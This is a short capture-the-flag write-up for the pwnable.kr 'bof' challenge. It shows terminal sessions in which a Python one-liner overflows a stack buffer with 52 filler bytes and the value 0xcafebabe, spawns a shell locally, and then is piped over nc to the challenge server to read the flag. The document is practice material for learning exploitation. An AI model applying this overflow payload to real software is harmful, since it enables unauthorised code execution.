 By running this exploit

```c
ra@moni~/P/p/bof> python exploit.py
[+] Starting local process './bof': pid 36634
[*] Switching to interactive mode

$
$ whoami
ra
$
[*] Interrupted
[*] Stopped process './bof' (pid 36634)
```

Other way to exploit by piping,

```c
ra@moni:~/PWNPractice/pwnable.kr/bof$ (python -c "print('A'*52+'\xbe\xba\xfe\xca')";cat) | ./bof
overflow me :
whoami
ra
ls
bof  bof.c  bof.md  exploit.py
echo "OVERFLOW"
OVERFLOW
```
-----

Now lets try to exploit this on server,

```c
ra@moni:~/PWNPractice/pwnable.kr/bof$ python -c "print('A'*52+'\xbe\xba\xfe\xca')" > exploitdata
ra@moni:~/PWNPractice/pwnable.kr/bof$ cat exploitdata
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
                                                     ra@moni:~/PWNPractice/pwnable.kr/bof$ ^C
ra@moni:~/PWNPractice/pwnable.kr/bof$ (cat exploitdata ;cat) | ./bof
overflow me :
ls
bof  bof.c  bof.md  exploitdata  exploit.py
^C*** stack smashing detected ***: terminated
Aborted (core dumped)

ra@moni:~/PWNPractice/pwnable.kr/bof$
```
Now lets try it,

```c
ra@moni:~/PWNPractice/pwnable.kr/bof$ (cat exploitdata ;cat)| nc 128.61.240.205 9000
overflow me :
whoami
bof
cat flag
daddy, I just pwned a buFFer :)
```
